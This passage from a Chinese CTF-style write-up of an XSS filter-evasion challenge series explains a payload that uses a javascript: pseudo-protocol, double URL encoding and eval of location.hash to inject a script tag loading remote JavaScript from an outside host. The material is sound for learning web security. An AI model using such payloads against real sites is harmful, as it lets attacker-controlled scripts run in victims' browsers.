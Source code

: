 题目作者给出的一种做法。

Payload：

    
    
    http://xcao.vip/test/xss4.php?data="><script>location['replace']`javascript:eval%2528eval%2528location%252ehash%252eslice%25281%2529%2529%2529`</script>#with(document)body.appendChild(createElement('script')).src='http://xcao.vip/xss/alert.js'
    

和方法一有相似之处，也使用了 `location['replace']` 的做法。作者提到，他还用了 JavaScript 伪协议以及 URL 编码。

先来说说 JavaScript 伪协议。

伪协议不同于 HTTP 、FTP 这类标准化协议，它是一种 **非标准化** 的协议，主要应用于关联应用程序，较为特殊。

比如有的场景中会使用 `tencent://` 来关联 QQ，包括方法一使用的 `data:` 也是一种伪协议。

在 JavaScript 中，要使用伪协议，需要使用 **`javascript:`** 进行声明，比如：

    
    
    javascript:alert("hello world!")
    

这个特殊的协议类型声明了 **其主体是任意的 JavaScript 代码** ，它由 JavaScript 的解释器运行。

如果代码含有多个语句，必须使用分号 `;` 将这些语句分隔开。

回到这个方法中来，在使用伪协议之后，作者使用了 `eval(eval(location.hash.slice(1)))`，其中
`eval(location.hash.slice(1))` 得到了

    
    
    with(document)body.appendChild(createElement('script')).src='http://xcao.vip/xss/alert.js'
    

这一部分，然后再将这一部分执行，从而实现添加 `<script>` 标签。

值得注意的是，将 `eval(eval(location.hash.slice(1)))` 进行 URL 编码过后，仍需要对 `%` 进行二次编码。

执行结果：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/bcfae6502c614eadb1475508f162edfd.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)

# 独孤九剑-第五式

## 题目

![在这里插入图片描述](https://img-
blog.csdnimg.cn/3b31ba3c9a604b9cbb9fc901dfbb44e8.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)

> **在上一题基础上，新增了对`%` 的过滤，取消了对 `=` 的过滤。即在第三式基础上，增加对 `%` 的过滤**

好家伙，这下 URL 编码被 ban 掉了😅😅😅
